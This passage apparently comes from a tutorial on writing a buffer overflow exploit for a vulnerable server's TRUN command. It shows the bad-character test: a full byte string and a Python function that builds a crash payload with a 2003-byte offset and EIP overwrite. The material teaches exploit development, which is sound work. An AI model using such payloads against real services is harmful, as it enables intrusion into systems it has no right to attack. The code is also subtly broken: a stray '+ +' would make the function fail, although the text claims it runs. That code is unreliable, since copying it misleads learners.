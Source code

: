 Other typical bad values can include 0x0D & 0x0A. which represent return character & new line respectively. 

Time to see if the TRUN command has any bad characters, to do this wee need an byte string of all possible hex characters. To  do this drop back to our trusty friend the REPL and run the following nasty looking list comprehension:

```python
[(chr(x)) for x in range(256)]
```

Or you can just copy and paste the following string (it's easier & I have already cut out the 0x00 for your convenience):

```python
b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
```

Pop the bad characters in like so:

```python
def make_payload():
    prepend = b"TRUN /.:/"
    # offset found using boofuzz
    
    pattern = b"A"*2003
    eip = b"B"*4
    badchars = b'\x01\x02\x03\x04[---SNIP---]\xfe\xff'
    buffer_space = 5000 - len(pattern) - len(eip) - len(badchars)
    payload_struct = pattern + eip + + badchars + b'C'*buffer_space
    final_payload = prepend + payload_struct
    return final_payload

```

Running this crashes our process as usual and at this point we can inspect the stack to see if there are any bad bytes:
